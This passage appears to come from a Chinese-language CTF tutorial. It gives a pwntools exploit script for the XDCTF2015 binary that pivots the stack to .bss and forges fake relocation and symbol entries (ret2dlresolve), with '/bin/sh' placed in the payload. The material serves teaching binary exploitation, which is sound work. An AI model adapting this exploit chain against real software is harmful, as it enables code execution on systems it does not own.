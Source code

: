 这里给出的其实是小端模式，因此我们需要手工转换。此外，每个符号占用的大小为16个字节。

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

## write sh="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

### making fake write symbol
fake_sym_addr = base_stage + 32
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
fake_sym_addr = fake_sym_addr + align
index_dynsym = (
    fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
fake_write_sym = flat([0x4c, 0, 0, 0x12])

### making fake write relocation

## making base_stage+24 ---> fake reloc
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
r_info = (index_dynsym << 8) | 0x7
fake_write_reloc = flat([write_got, r_info])

rop.raw(plt0)
rop.raw(index_offset)
## fake ret addr of write
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))
rop.raw(fake_write_reloc)  # fake write reloc
rop.raw('a' * align)  # padding
rop.raw(fake_write_sym)  # fake write symbol
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))
```